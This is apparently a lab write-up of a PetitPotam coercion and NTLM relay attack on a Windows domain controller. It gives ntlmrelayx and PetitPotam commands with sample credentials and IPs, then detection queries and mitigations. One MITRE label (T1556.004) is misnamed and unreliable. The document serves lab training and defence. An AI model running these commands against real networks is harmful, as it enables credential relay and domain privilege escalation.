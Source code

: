 # Attack Scenario: Coercion via PetitPotam
PetitPotam abuses MS-EFSRPC (Encrypting File System Remote Protocol) to coerce an authenticated Windows host (typically a Domain Controller or File Server) into making an SMB connection to an attacker-controlled machine. This coerced authentication can be relayed via NTLM Relay to gain elevated access.

## MITRE ATT&CK Techniques:

T1557.001 – Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning

T1557.002 – SMB/NTLM Relay

T1556.004 – Credential Relay via Coerced Authentication

## Lab Environment
- **Attacker machine:** attacker-vm (Kali or Ubuntu)
- **Target machine:** dc01.internal.lab or any file server with EFSRPC enabled
- **Relay target:** LDAP/SMB/HTTP service on a second internal host
- **Tools:** PetitPotam (Python version), ntlmrelayx

## Preconditions:

- Target system has EFSRPC service exposed (usually over \\target\pipe\efsrpc)

- No NTLM signing enforced on the relay target (e.g., LDAP or SMB)

## Objectives
- Force a victim machine to authenticate to attacker via SMB

- Relay the NTLM authentication to a third-party target (LDAP/SMB)

- Perform privileged operations (e.g., add user, dump secrets)

## Execution Steps
### 1. Set Up NTLM Relay (passive listener)

```ntlmrelayx.py -t ldap://dc01.internal.lab --no-wcf-server --escalate-user```
Or:

```ntlmrelayx.py -t smb://target.internal.lab -smb2support```
### 2. Trigger Authentication via PetitPotam
Clone and run:

```git clone https://github.com/topotam/PetitPotam
cd PetitPotam
python3 PetitPotam.py -u USER -p PASS -d internal.lab <target-ip> <attacker-ip>```

Note: Authenticated coercion works more reliably. Null sessions are usually blocked.

Example:

```python3 PetitPotam.py -u svc-backup -p P@ssw0rd1 -d internal.lab 10.0.0.10 10.0.0.99```
### 3. Confirm Relay
If successful, NTLMRelayX will show relayed authentication and resulting action (e.g., user added, hash dumped, shell granted).

## Detection Guidance
### Logs and Indicators
Event ID 4624 with LogonProcessName = NtLmSsp from unusual source IP

Event ID 5140 indicating share access from non-standard clients

High volume of failed or anomalous named pipe connections

### KQL – Suspicious Named Pipe Access

```
SecurityEvent
| where EventID == 5145
| where ShareName endswith "$IPC"
| where RelativeTargetName has "efsrpc"
```

### Defender for Identity
Alert: "Suspicious Kerberos-based authentication attempt"

Alert: "SMB relay attack attempt detected"

## Mitigations
- Block outbound SMB where not needed

- Require SMB and LDAP signing on all internal servers

- Disable the EFS service (if unused)

- Patch vulnerable systems (PetitPotam was mitigated by MS in patches starting mid-2021)

- Example GPO to disable EFS:

```Computer Configuration > Windows Settings > Security Settings > Public Key Policies > Encrypting File System > Do not allow```

## References
https://github.com/topotam/PetitPotam

https://dirkjanm.io/relaying-ntlm-to-ldap-with-ldaps-in-2020/

https://attack.mitre.org/techniques/T1557/002/

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942

## Navigation
[Back to Lab Index:](../../README.md)
[Related: NTLM Relay](./NTLM-relay.md)